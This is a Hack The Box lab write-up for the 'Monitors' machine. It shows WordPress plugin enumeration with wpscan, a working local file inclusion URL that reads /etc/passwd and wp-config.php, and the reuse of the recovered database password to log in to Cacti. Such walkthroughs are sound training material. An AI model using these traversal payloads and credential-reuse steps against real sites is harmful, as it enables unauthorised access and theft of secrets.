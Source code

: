 ## Monitors

https://app.hackthebox.com/machines/Monitors

<br>

### www-data

Open 10.10.10.238:22  
Open 10.10.10.238:80

WordPress 5.5.1 identified by Wappalyzer.

```
wpscan --url http://monitors.htb --api-token pP5Ha3o7a3hmaIBueWtYShULJd6FFceslCaQE3LiKYw --enumerate vp --plugins-detection aggressive
```

Plugin Identified: wp-with-spritz  
[!] 1 vulnerability identified:  
[!] Title: WP with Spritz 1.0 - Unauthenticated File Inclusion

Exploit LFI:
```
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd

marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash 
```

Vulnerable Code:
```php
if(isset($_GET['url'])){
$content=file_get_contents($_GET['url']);
```

<br>

We can check to apache configuration at `/etc/apache2/sites-enabled/000-default.conf`. There we enumerate `monitors.htb.conf` and `cacti-admin.monitors.htb.conf`.

We also find credentials at `http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../var/www/wordpress/wp-config.php`, but they are not useful right now.
```
define( 'DB_NAME', 'wordpress' );                                               

/** MySQL database username */                                                  
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */          
define( 'DB_PASSWORD', 'BestAdministrator@2020!' ); 
```

<br>

Accessing `cacti-admin.monitors.htb` we find Cacti Version 1.2.12 and can login with admin:BestAdministrator@2020!

